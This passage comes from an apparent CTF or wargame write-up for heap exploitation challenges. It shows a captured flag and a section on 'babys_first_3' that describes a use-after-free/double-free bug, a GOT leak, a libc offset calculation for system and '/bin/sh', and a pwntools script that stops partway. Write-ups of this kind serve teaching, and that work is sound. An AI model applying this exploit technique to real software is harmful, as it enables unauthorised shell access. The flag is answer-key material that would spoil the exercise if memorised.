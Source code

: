 ```python
c.close()
```
_Flag:_
'6447{b20e6d03-f58c-43b7-974a-f801bb9a2fb5}'
---
## **3. heap-3 - babys_first_3**
_General Overview of Problems Faced:_
1. Have to figure out a way to leak the fputs GOT

_List of Vulnerabilities:_
1. The delete function doesn't remove the entry in the array after deleting which leads to a use after free vulnerability and also double free vulnerability

_Steps To Exploit:_
1. First we do the same thing like what we did in heap-2 but with the values as -1 which will make it 0xffffffff so that printf will not get null-terminated, by doing this we can leak the fputs GOT address
2. Use the libc database to calculate the offset to system and _"/bin/sh"_
3. Overwrite the orignal fputs and address to the name in one of the fish
4. Call view on the fish we modified then we will get a shell

_Script/Command Used"_
```python
#!/usr/bin/python

from pwn import *
import re

#c = process("./babys_first_3")
c = remote("wargames.6447.sec.edu.au", 9003)
#gdb.attach(c)

c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("-1")
c.recvuntil('>')
c.sendline("-1")
c.recvuntil('>')
c.sendline("aaaa")

c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("2")
c.recvuntil('>')
c.sendline("-1")
c.recvuntil('>')
c.sendline("-1")
c.recvuntil('>')
c.sendline("bbbb")

c.recvuntil('>')
c.sendline("4")
c.recvuntil('>')
c.sendline("1")

c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("3")
```